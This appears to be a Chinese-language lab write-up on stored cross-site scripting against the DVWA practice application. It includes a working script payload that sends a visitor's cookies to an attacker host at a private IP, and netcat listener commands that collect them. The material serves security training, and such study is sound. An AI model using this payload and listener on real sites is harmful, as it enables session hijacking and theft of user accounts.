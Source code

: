 ## 一、存储型XSS(Stored XSS)
存储型XSS的Payload会被永久保存在网站的数据库中（如一条留言、一篇帖子），访问即中招。

## 二、攻击流程
### 2.1侦测漏洞
1. DVWA Security级别low
2. XSS(Stored)模块，输入测试代码`<script>alert('Stored XSS')</script>`
3. 弹出"Stored XSS"警告框，且每次都弹窗，证明脚本保存在服务器上
### 2.2准备Payload
1. 目标是窃取Cookie
2. 修改message的text限制为500；`<textarea name="mtxMessage" cols="50" rows="3" maxlength="500"></textarea>`
3. Payload；`<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
### 2.3收获
1. 启动监听器；`nc -lvp 1234`
2. XSS(Stored)提交Payload
3. `netcat`接收到Cookie
## 三、总结
1. -l是listen，-v是verbose，-p是port
2. `while true; do nc -lvp 1234; done`则不断接收Cookie
3. 不重置数据库，又能安全返回XSS Stored页面的方法：浏览器暂时禁用JavaScript功能
    - 浏览器地址栏输入`about:config`
    - 搜索`javascript.enabled`，将其从`true`切换成`false`


